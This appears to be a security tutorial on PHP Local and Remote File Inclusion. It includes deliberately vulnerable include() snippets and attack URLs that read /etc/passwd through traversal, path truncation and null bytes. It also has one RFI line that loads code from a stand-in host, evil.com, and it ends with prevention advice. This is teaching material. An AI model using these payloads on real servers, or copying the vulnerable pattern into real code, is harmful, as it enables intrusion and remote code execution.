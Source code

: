 # Local File Inclusion
## What is LFI? (Local File Inclusion)
LFI is an attack that allows you to access or include local files on the servers filesystem. This attack occurs due to unsanitized input. Here is a basic example of how this attack works, let's say we have the following snippet of PHP code in our project:
```php
<?php 
    $file = $_GET['file'];

    if(isset($file)) {
        include("a/b/c/$file");
    } else {
        include("a/b/c/index.php");
    }
?>
```
A request for a homepage would look like this:
```
https://example.com/?file=home.php
```
We have complete control over the `?file` parameter, so we can simply change it to:
```
https://example.com/?file=../../../../../../../etc/passwd
OR
https://example.com/?file=/etc/passwd
```
An application can also have a extension as a suffix that can prevent us from accessing files that do not have the same extension, for example:
```php
<?php 
    $file = $_GET['file'];

    if(isset($file)) {
        include("a/b/c/$file"."php");
    } else {
        include("a/b/c/index.php");
    }
?>
```
A request for a homepage then would be:
```
https://example.com/?file=home
```
How can we evade the `.php` extension? 

### Path Truncation ( < PHP 5.3.0 )
This technique takes advantage of the file size limit of PHP. Any file that exceeds 4096 bytes will have everything after that size discarded, including the ".php" suffix. An example of this kind of attack would be:
```
https://example.com/?file=invalidFile../../../../../../../../etc/passwd/././././<repeat "./" until 4096 Bytes or more>
```
There are a couple of attack vectors described [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion#path-truncation).

### Null Byte Injection ( < PHP 5.4.0 )
Null Byte Injection is basically a way to evade this kind of suffix using nothing but a NULL character. The way it works is that you append the [%00](https://en.wikipedia.org/wiki/Null_character) character to the end of a request that can indicate to the PHP interpreter that "Hey, this is the end of the string so everything after that should be discarded". This means that the request:
```
https://example.com/?file=/etc/passwd%00
```
Would resolve in the source code like this:
```php
<?php
    $file = "/etc/passwd%00"; // $_GET['file']

    if(isset($file)) {
        include("/etc/passwd"); // The .php extension is discarded because of the NULL char.
    } else {
        include("a/b/c/index.php");
    }
?>
```

### How dangerous is this vulnerability?
This type of attack allows us to:
- Execute malicious code ( Using RFI or via a File Upload Vulnerability ).
- Read the source code of pages using the [php://filter](https://medium.com/@gupta.bless/exploiting-local-file-inclusion-lfi-using-php-wrapper-89904478b225) PHP Wrapper.
## What is RFI? (Remote File Inclusion)
Remote File Inclusion works the same way as LFI, except rather than accessing a file on the web server, the server accesses a remote file via a URL. An example would be:
```php
<?php 
    $file = $_GET['file'];

    if(isset($file)) {
        include("a/b/c/$file");
    } else {
        include("a/b/c/index.php");
    }
?>
```
A request for a homepage would look like this:
```
https://example.com/?file=home.php
```
This time, rather than accessing a local file, we provide a URL to a different website:
```
https://example.com/?file=http://evil.com/evil.php
```
In this example, the webserver includes the malicious code and runs it with its execution permissions. This allows an attacker to run any code he/she wants to, including a webshell. This gives the attacker complete control over the web server.

## How can it be prevented?
The best way to eliminate this kind of attack is to never include files based on user input, but if there isn't any other option, you can create an allowlist of filenames that can be included using a simple switch statement.
## Useful resources:
- [Null Byte Injection - PHP](https://resources.infosecinstitute.com/null-byte-injection-php/)
- [File Inclusion - HackTricks.xyz](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [Remote File Inclusion - Acunetix](https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/)

*A docker application for testing this exploit soon!*